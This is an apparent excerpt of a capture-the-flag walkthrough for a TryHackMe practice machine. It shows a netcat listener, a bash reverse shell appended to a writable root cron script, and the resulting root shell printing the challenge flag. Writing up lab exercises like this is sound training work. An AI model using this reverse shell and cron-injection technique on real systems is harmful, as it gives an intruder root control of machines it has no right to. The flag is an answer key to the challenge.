 ```
kali@kali:~/CTFs/tryhackme/Easy Peasy$ nc -nlvp 9001
```

```
boring@kral4-PC:/var/www$ echo "bash -i >& /dev/tcp/10.8.106.222/9001 0>&1" >> .mysecretcronjob.sh
```

```
root@kral4-PC:~# ls -la
ls -la
total 40
drwx------  5 root root 4096 Jun 15 12:40 .
drwxr-xr-x 23 root root 4096 Jun 15 01:08 ..
-rw-------  1 root root    2 Oct  5 03:45 .bash_history
-rw-r--r--  1 root root 3136 Jun 15 12:40 .bashrc
drwx------  2 root root 4096 Jun 13 15:40 .cache
drwx------  3 root root 4096 Jun 13 15:40 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13 15:44 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15 01:01 .root.txt
-rw-r--r--  1 root root   66 Jun 14 21:48 .selected_editor
root@kral4-PC:~# cat .root.txt
cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
root@kral4-PC:~#
```
